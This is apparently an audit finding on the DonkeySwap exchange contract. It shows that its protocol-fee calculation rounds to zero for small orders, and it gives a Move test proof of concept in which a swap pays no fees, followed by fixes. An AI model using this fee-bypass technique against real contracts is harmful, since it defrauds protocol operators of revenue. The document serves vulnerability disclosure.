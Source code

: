 #### Description

DonkeySwap calculates the appropriate protocol fees by taking a percentage of the order size in the following function:

```rust
##[query]
public fun calculate_protocol_fees(
    size: u64
): (u64) {
    return size * PROTOCOL_FEE_BPS / 10000
}
```

If the `size` argument is less than `10000 / PROTOCOL_FEE_BPS`, the fee will round down to 0.

#### Impact

Users can bypass fees when removing liquidity, swapping, or limit swapping by placing multiple small orders.

The following proof of concept demonstrates this impact with a single order costing zero protocol fees:

```rust
##[test(admin=@donkeyswap, user=@0x2222)]
fun WHEN_exploit_fees_rounding_down(admin: &signer, user: &signer) acquires CoinCapability {
    setup_with_liquidity(admin, user);

    let max_exploit_amount = (10000 / market::get_protocol_fees_bps()) - 1;
    assert!(market::calculate_protocol_fees(max_exploit_amount) == 0, ERR_UNEXPECTED_PROTOCOL_FEES);

    let my_usdc = max_exploit_amount;
    mint<USDC>(my_usdc, address_of(user));

    assert!(coin::balance<USDC>(address_of(user)) == my_usdc, ERR_UNEXPECTED_BALANCE);
    assert!(coin::balance<ZEL>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);

    let output = market::swap<USDC, ZEL>(user, my_usdc);

    assert!(coin::balance<USDC>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);
    assert!(coin::balance<ZEL>(address_of(user)) == output, ERR_UNEXPECTED_BALANCE);
    assert!(output > 0, ERR_UNEXPECTED_BALANCE);

    assert!(market::get_protocol_fees<USDC>() == 0, ERR_UNEXPECTED_PROTOCOL_FEES);
    assert!(market::get_protocol_fees<ZEL>() == 0, ERR_UNEXPECTED_PROTOCOL_FEES); // no fees collected
}
```

#### Recommendations

Require that order sizes be higher than a minimum amount or require that calculated protocol fees are nonzero.
